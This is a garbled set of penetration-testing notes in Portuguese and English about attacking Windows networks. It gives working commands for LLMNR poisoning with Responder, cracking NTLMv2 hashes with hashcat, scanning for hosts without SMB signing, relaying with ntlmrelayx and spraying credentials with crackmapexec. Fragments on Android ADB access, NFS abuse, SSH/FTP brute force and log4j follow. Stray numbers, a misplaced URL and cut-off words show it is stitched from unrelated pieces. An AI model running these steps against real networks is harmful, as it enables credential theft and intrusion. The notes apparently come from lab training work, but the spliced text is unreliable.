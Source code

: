 # LLMNR Poisoning 

sudo responder -I eth0 -dwP 9Using Misconfigured NFS (2049) 
cliffsnotes.com/study-notes/4507324
hashcat –m 5600 <hashfile.txt> <wordlist.txt>

# SMB Relay Attacks

nmap --script=smb2-security-mode.nse -p445 10.0.0.0/24

Reuniremos todas as estações de trabalho sem assinatura SMB imposta e as colocaremos em um arquivo chamado targets.txt 



Utilizaremos Responder e ntlmrelayx para nosso ataque. Devemos primeiro configurar adequadamente o Responder para desabilitar as respostas SMB e HTTP, pois elas serão encaminhadas para ntlmrelayx (e eventualmente retransmitidas).

sudo nano  /etc/responder/Responder.conf

sudo responder –I eth0 -dwP
irst look for the port adb (5555) open in which network, use phonesploit to access the device, For scanning elf files use Detect it easy 


Por fim, iniciaremos o ntlmrelayx e aguardaremos a ocorrência de um evento.

sudo ntlmrelayx.py –tf targets.txt –smb2support

crackmapexec smb 192.168.28.0/24 -u peter -d MARVEL.local -p Password123
14log4j vulnerability / bruteforce login / sglmap login form / OWAZP Zap 
6heck for NFS port(2049) open, then exploit by using NFS Or try using hydra for SSH and FTP 

